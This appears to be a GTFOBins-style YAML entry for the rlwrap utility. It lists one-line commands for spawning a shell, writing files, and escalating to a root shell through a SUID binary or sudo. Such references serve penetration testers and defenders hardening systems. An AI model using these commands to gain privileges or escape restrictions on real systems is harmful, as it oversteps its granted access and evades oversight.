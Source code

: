 ```yaml
---
functions:
  execute-interactive:
    - code: rlwrap /bin/sh
  file-write:
    - description: This adds timestamps to the output file. This relies on the external `echo` command.
      code: |
        LFILE=file_to_write
        rlwrap -l "$LFILE" echo data
  suid-enabled:
    - code: ./rlwrap -H /dev/null /bin/sh -p
  sudo-enabled:
    - code: sudo rlwrap /bin/sh
---
```

